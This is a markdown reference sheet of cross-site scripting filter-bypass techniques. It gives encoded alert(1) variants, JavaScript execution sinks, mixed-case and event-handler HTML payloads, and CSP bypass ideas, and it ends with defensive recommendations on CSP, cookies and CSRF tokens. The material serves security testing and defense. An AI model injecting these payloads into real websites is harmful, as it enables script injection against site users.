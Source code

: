 ## 🛡️ XSS Filter Bypass Techniques (Advanced Reference)

### 🔹 Encodings and Payload Variants

| Technique    | Example                                            |
| ------------ | -------------------------------------------------- |
| Unicode      | `alert(1)`                                         |
| Octal        | `\141\154\145\162\164\50\61\51`                    |
| Hex          | `\x61\x6c\x65\x72\x74\x28\x31\x29`                 |
| Base64       | `atob("YWxlcnQoMSk=")`                             |
| fromCharCode | `String.fromCharCode(97,108,101,114,116,40,49,41)` |
| No-Space     | `<svg/onload=alert(1)>`                            |
| URI Decoding | `decodeURI(/alert("xss")/.source)`                 |

### 🔹 Dangerous Execution Sinks

* `eval()`
* `setTimeout()` / `setInterval()` with string args
* `Function("code")()`
* `new Function("code")`
* `[].constructor.constructor("alert(1)")()`

### 🔹 Bypass Patterns

```html
<ScRiPt>alert(1);</ScRiPt>
<object data="JaVaScRiPt:alert(1)">
<img src=x OnErRoR=alert(1)>
<svg/onload=alert(1)>
<script src="data:text/javascript,alert(1)"></script>
```

### 🔹 CSP-Aware Bypasses

* Exploit `script-src-elem` vs `script-src`
* Use allowed inline event handlers if `'unsafe-inline'` is present
* Abuse open redirect + data URLs if `connect-src` allows `data:`

---

Continue using this reference alongside a hardened CSP, secure session cookies (`SameSite=Strict; Secure; HttpOnly`), and token-based anti-CSRF mechanisms (double-submit pattern or server-bound tokens).

For advanced defense-in-depth, combine:

* CSP (restricts resource loading)
* Origin/Referer validation
* SameSite cookies
* Per-request CSRF tokens
* JWT audience + CSRF token coupling

---